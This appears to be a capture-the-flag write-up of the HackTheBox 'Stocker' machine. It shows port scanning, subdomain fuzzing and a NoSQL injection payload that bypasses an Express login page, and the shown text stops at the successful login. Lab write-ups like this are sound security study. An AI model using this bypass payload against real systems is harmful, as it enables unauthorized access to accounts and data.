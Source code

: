 # Box: Stocker
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.228.197 -v -p- -T4```

```
Nmap scan report for stocker.htb (10.129.228.197)
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-title: Stock - Coming Soon!
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 32.171 days (since Thu Sep 21 23:48:56 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   189.37 ms 10.10.14.1
2   189.55 ms stocker.htb (10.129.228.197)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 24 03:55:08 2023 -- 1 IP address (1 host up) scanned in 706.90 seconds
```
From our scan we have 2 open ports, port 22 and port 80. Our enumeration today will be focused on port 80




# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6a2b79b8-6952-4f43-8c0e-ac68df66a410)

Add the domain name ```stocker.htb``` to your ``/etc/hosts``` file.

We should be able to view the webpage now

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a70cdd08-d99d-4d0e-969e-03b8462c5942)

cool, we can now view the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f45a4b6-05ed-4198-973b-7e81208ce94e)

I fuzzed for directories but didn't find anything useful.

Lets fuzz for subdomains using ```gobuster```

command:```gobuster vhost -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/stocker]
└─$ gobuster vhost -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

We can see the subdomain ```dev.stocker.htb```, add this to your ```/etc/hosts``` file and navigate to the subdomain

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/16046452-a7cb-4bc1-aa17-3ab186c9d8f9)

We have a login page. Checking wappalyzer I saw that the javascript framework being used for that subdomain is ```express```

The login form can be exploited to be bypassed using NoSQL and also by changing the "Content-Type" from ```application/x-www-form-urlencoded``` to ```application/json```

Lets capture the login request using burpsuite then we send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/02c24101-710e-4401-a45c-69aa5d689cec)

We'll be using the NoSQL payload

```json
{"username": {"$gt":""}, "password": {"$gt":""}}
```
This will help bypass the login page, after modifying the request you should have something like this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a21b25ae-bea1-4b29-b55d-6617398be11d)

Send the request, you should get a response like this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2e21fbe7-9a90-421a-a9cc-e9b04d0a3a19)

nice nice, now lets follow redirection

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d0e09393-92b8-4945-80aa-c4d97a41ee13)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ebd8e346-4cbb-480e-a632-3715addb5c13)

Smooth we are logged in. Lets view this response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/62e6172f-9fad-4212-b2e6-1c0349804c44)

smooth😎





















